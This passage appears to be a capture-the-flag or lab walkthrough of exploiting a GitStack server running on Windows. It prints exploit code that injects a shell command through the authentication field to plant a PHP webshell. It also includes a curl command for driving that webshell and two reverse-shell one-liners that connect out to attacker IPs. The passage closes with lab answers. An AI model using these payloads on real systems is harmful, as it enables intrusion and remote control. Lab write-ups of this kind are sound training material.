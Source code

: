 from that we know that machine is windows machine 

so we have command execution on the machine so we have to choices to gain a reverse shell 

1. We could change the command in the exploit and re-run the code

change the command and re run the make another file so thats not so good 

2.  We could use our knowledge of the script to leverage the same webshell to execute more commands for us, without performing the full exploit twice

this looks betters so now we do this 

from the code

```
print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\exploit-NoobHacker69.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/exploit-NoobHacker69.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')
```

this part of the code we know the code make a post request with parameter 'a' by default so we make the post request send it to the server to execute our command with making another file 

we achive this with the two method 
1. curl command 
2. burpsuit 

so we use curl command 

Command syntax: `curl -X POST http://IP/web/exploit-USERNAME.php -d "a=COMMAND"`

this method is easy and speedy so use of this is recommended

burpsuite method work fine but it is lengthy as first open burp proxy then make a request and then send it to the repeater and the changing it content with our sake so that so timetaking so use curl command is good 

##### php reverse shell tiny code

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
```
##### php reverse shell tiny command for linux

```
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
```
Q2: What is the hostname for this target? 
A: git-serv
```
```
Q3: What operating system is this target? 
A: windows
```
```
Q4: What user is the server running as?
A: nt authority\system
```
